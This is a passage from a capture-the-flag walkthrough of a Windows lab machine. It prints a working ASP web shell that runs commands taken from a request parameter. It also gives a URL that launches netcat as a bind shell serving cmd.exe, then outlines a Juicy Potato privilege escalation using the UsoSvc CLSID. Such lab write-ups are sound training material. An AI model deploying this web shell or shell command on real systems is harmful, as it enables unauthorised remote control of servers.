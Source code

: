 ```html
<b>Command Output:</b>
<br>
<pre>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write Server.HTMLEncode(thisDir)%>
</pre>
<br>
</body>
</html>
```

While we are at it, we might as well upload `nc.exe` to see if we can spawn a bind shell because I noticed that there's a script that deletes whatever is in `/upload` rather quickly.


{% include image.html image_alt="8c765d2a.png" image_src="/6cd0c453-7dba-47a7-af54-16f65dccfab9/8c765d2a.png" %}


Remote command execution unlocked! Time to spawn that bind shell.

```
http://10.10.10.116/upload/hello.asp?cmd=c%3A%5Cinetpub%5Cwwwroot%5Cupload%5Cnc.exe+-lnvp+12345+-e+cmd.exe
```


{% include image.html image_alt="d18e05b1.png" image_src="/6cd0c453-7dba-47a7-af54-16f65dccfab9/d18e05b1.png" %}


Awesome.

The `proof.txt` is at `Destitute`'s desktop.


{% include image.html image_alt="18d89cbb.png" image_src="/6cd0c453-7dba-47a7-af54-16f65dccfab9/18d89cbb.png" %}


## Privilege Escalation

During enumeration of `destitute`'s account, I notice that the account has these privileges.


{% include image.html image_alt="43c7f1eb.png" image_src="/6cd0c453-7dba-47a7-af54-16f65dccfab9/43c7f1eb.png" %}


I smell potato cooking! There were different types of potato uncovered in my reseach and oh boy, in the end the "juicy" one seems the most promising because of the various command switches available. More importantly, I can change to a different COM server other than BITS.

For some reason I couldn't recall, I decided to go for `UsoSvc`'s CLSID, which can be found [here](https://ohpe.it/juicy-potato/CLSID/). Earlier on, I'd already established that Conceal is a Windows 10 Enterprise.

The CLSID of `UsoSvc` is `{B91D5831-B1BD-4608-8198-D72E155020F7}`. We are now set to run the [exploit](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts).
